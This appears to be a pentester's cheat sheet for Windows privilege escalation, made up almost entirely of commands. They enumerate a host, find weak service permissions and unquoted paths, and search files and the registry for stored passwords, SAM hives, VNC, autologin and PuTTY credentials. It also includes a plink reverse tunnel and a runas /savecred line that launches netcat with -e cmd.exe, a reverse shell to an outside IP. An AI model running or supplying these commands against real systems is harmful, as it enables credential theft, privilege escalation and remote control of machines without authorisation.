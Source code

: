 # Windows Privilege Escalation

### patch level  
systeminfo  
wmic qfe get Caption,Description,HotFixID,InstalledOn  

whoami  
echo %USERNAME%  

net user  
net localgroup  

users in a domain  
net user /domain  

net group /domain  
net group /domain <Group Name>  

### Firewall  
netsh firewall show state  
netsh firewall show config  

### Network  
ipconfig /all  
route print  
arp -A  

### Scheduled Tasks  
schtasks /query /fo LIST /v  
--copy output and save in txt  
cat schtask.txt | grep "SYSTEM\|Task To Run" | grep -B 1 SYSTEM  

dir %SystemRoot%\Tasks  

e.g. c:\windows\tasks\  
e.g. c:\windows\system32\tasks\  

### Weak Service Permissions  
Check service config can be modify or not  

accesschk.exe /accepteula  
accesschk.exe -uwcqv "Authenticated Users" * /accepteula  
accesschk.exe -ucqv <Service Name>  

sc qc \<Service Name> -- Get service details  

Check service with weak file permission  
User c:\windows\temp\  

wmic.exe  
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt
for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"  

sc.exe  
sc query state= all | findstr "SERVICE_NAME:" >> Servicenames.txt  
FOR /F %i in (Servicenames.txt) DO echo %i  
type Servicenames.txt  
FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt  
FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt  

### Unquoted Service Path  
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """  

sc query  
sc qc service name  

### AlwaysInstallElevated << IF 64 bits use:  %SystemRoot%\Sysnative\reg.exe  
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated  
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated  

### Service only available from inside  
netstat -ano  
upload plink.exe  

plink.exe -R "remote port":127.0.0.1:"local port"  root@"ipaddress"

### Pasword in files  
https://pentestlab.blog/tag/privilege-escalation/page/3/  
cmdkey /list        << If there are entries, it means that we may able to runas certain user who stored his cred in windows  
runas /savecred /user:ACCESS\Administrator "c:\windows\system32\cmd.exe /c \\IP\share\nc.exe -nv 10.10.14.2 80 -e cmd.exe"  

Can we find any SAM files?  
%SYSTEMROOT%\repair\SAM  
%SYSTEMROOT%\System32\config\RegBack\SAM  
%SYSTEMROOT%\System32\config\SAM  
%SYSTEMROOT%\repair\system  
%SYSTEMROOT%\System32\config\SYSTEM  
%SYSTEMROOT%\System32\config\RegBack\system  

findstr /si password *.txt  
findstr /si password *.xml  
findstr /si password *.ini  
findstr /si pass/pwd *.ini  

dir /s *pass* == *cred* == *vnc* == *.config*  

in all files  
findstr /spin "password" *.*  
findstr /spin "password" *.*  

Unattended? vnc?  
c:\sysprep.inf  
c:\sysprep\sysprep.xml  
c:\unattend.xml  
%WINDIR%\Panther\Unattend\Unattended.xml  
%WINDIR%\Panther\Unattended.xml  

dir /b /s unattend.xml  
dir /b /s web.config  
dir /b /s sysprep.inf  
dir /b /s sysprep.xml  
dir /b /s *pass*  

dir c:\*vnc.ini /s /b  
dir c:\*ultravnc.ini /s /b   
dir c:\ /s /b | findstr /si *vnc.ini  

### VNC  
reg query "HKCU\Software\ORL\WinVNC3\Password"  
reg query "HKCU\Software\TightVNC\Server"  

### Windows autologin  
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"  
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"  

### SNMP Paramters  
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"  

### Putty  
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"  

### Search for password in registry  
reg query HKLM /f password /t REG_SZ /s  
reg query HKCU /f password /t REG_SZ /s  







